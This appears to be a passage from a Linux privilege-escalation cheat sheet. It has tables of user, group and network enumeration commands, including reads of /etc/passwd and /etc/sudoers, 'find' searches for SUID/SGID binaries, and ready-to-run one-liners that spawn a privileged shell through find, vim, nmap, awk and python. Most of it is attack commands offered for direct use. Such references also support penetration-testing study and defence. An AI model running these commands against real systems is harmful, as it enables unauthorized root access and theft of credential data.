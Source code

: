 #### User and Group Information

| Command | Description |
|---------|-------------|
| `whoami` | Current username |
| `id` | Current user ID and groups |
| `cat /etc/passwd` | All system users |
| `cat /etc/group` | All system groups |
| `w` | Currently logged users |
| `last` | Login history |
| `sudo -l` | Sudo privileges |
| `cat /etc/sudoers` | Sudoers configuration |

#### Network Information

| Command | Description |
|---------|-------------|
| `ip a` | Network interfaces |
| `netstat -tuln` | Listening ports |
| `ss -tuln` | Socket statistics |
| `arp -a` | ARP table |
| `cat /etc/hosts` | Hosts file |
| `cat /etc/resolv.conf` | DNS configuration |

### SUID/SGID Exploitation

#### Finding SUID/SGID Files

| Command | Description |
|---------|-------------|
| `find / -perm -4000 -type f 2>/dev/null` | Find SUID files |
| `find / -perm -2000 -type f 2>/dev/null` | Find SGID files |
| `find / -perm -6000 -type f 2>/dev/null` | Find SUID and SGID files |
| `find / -perm -u=s -type f 2>/dev/null` | Alternative SUID search |

#### Common SUID Exploits

| Binary | Exploitation Method | Example |
|--------|-------------------|---------|
| `find` | Execute commands | `find /home -exec /bin/bash -p \;` |
| `vim` | Shell escape | `:!/bin/bash` |
| `nmap` | Interactive mode | `nmap --interactive; !bash` |
| `awk` | Execute commands | `awk 'BEGIN {system("/bin/bash")}'` |
| `python` | Import os | `python -c "import os; os.system('/bin/bash')"` |
